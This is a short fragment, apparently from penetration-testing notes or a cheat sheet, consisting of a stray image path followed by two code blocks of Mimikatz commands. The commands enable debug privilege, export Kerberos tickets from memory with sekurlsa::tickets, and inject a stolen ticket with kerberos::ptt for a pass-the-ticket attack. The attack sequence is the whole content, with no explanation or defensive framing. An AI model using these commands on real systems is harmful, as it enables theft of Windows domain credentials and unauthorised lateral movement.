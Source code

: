 ```powershell
privilege::debug
sekurlsa::tickets /export
```

```powershell
kerberos::ptt $TICKET_FILE
```

